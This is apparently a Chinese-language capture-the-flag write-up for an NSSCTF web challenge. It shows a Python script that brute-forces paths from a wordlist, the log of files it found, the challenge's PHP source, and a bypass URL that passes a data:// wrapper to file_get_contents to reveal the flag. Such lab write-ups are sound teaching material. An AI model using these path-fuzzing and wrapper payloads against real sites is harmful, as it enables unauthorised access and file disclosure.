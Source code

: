 -
- > 复现
- # 思路
	- 爆
		- ```python
		  def test_uri(uri):
		      r = base_get(url + "/" + uri.removeprefix("/"), acceptable_code=None)
		      return len(r.text) if r.status_code else -r.status_code
		  
		  auto_burst_resp_len_multi(
		      test_uri,
		      fileread.readlinesfrom("../HandyFuzzDict/httppath.txt")
		  )
		  ```
	- 得
		- ```
		    0%|          | 0/235 [00:00<?, ?it/s]
		  INFO:root:[Auto Burst] Get: 67 Arg: .git
		  INFO:root:[Auto Burst] Get: 67 Arg: .git/HEAD
		    4%|▍         | 10/235 [00:00<00:04, 50.64it/s]INFO:root:[Auto Burst] Get: 169 Arg: source.php
		   35%|███▌      | 83/235 [00:01<00:03, 50.24it/s]INFO:root:[Auto Burst] Get: 190 Arg: www.rar
		  100%|██████████| 235/235 [00:05<00:00, 46.38it/s]
		  ```
	- 看
		- `http://node2.anna.nssctf.cn:28329/orzorz.php`
		- ```php
		   <?php
		  error_reporting(0);
		  if(isset($_GET['cxk'])){
		      $cxk=$_GET['cxk'];
		      if(file_get_contents($cxk)=="ctrl"){
		          echo $flag;
		      }else{
		          echo "洗洗睡吧";
		      }
		  }else{
		      echo "nononoononoonono";
		  }
		  ?> 
		  ```
	- 绕
		- ```
		  http://node2.anna.nssctf.cn:28329/orzorz.php?cxk=data://text/plain,ctrl
		  ```